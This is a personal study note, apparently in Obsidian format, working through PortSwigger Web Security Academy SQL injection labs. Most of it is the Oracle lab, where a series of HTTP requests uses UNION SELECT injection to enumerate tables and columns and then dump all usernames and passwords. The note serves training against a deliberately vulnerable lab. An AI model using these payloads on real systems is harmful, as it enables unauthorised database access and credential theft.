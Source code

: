![[Pasted image 20241118045934.png]]

## 🟦 Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft ?

## 🟦 Lab 5: SQL injection attack, listing the database contents on non-Oracle databases ?
## 🟦 Lab 6: SQL injection attack, listing the database contents on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 

 On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. 
 If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: *UNION SELECT 'abc' FROM dual* 

1. Verify that query is returning two columns, both of which are text using `category` parameter
![[Pasted image 20241118050616.png]]

2. Retrieve list of tables in the db
![[Pasted image 20241118050755.png]]

3. Which name of the table containing user credentials? Retrieve tables
```http
GET /filter?category=Gifts'+UNION+SELECT+table_name,NULL+FROM+all_tables-- HTTP/2
```
![[Pasted image 20241118051503.png]]

4. Retrieve the details in the table
```http
GET /filter?category=Gifts'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_GNRBIN'-- HTTP/2
```
![[Pasted image 20241118051707.png]]

5. Retrieve usernames and passwords for all users
```http
GET /filter?category=Gifts'+UNION+SELECT+USERNAME_CUKOIP,+PASSWORD_VEHHOY+FROM+USERS_GNRBIN-- HTTP/2
```
